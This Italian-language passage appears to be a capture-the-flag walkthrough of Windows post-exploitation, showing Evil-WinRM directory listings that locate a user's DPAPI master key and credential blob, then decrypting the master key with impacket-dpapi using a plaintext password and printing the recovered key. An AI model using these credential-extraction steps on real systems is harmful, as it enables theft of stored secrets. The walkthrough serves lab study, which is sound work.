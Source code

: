 In **adam.silver** non si e' trovato nulla, mentre, in **steph.cooper** si e' trovata una **master key**.

```powershell

*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred

```

Mentre, i **DPAPI data protected** sono solitamente situati in **C:\Users\$USER\AppData\Roaming\Microsoft\Credentials**.

```powershell

*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

```

Si utilizza il **server SMB** per avere in locale sulla macchina Kali **master key** e **DPAPI blob file**.

Si effettua l'**unlock** della master key.

```bash

# Unlock the master key
$ impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

```
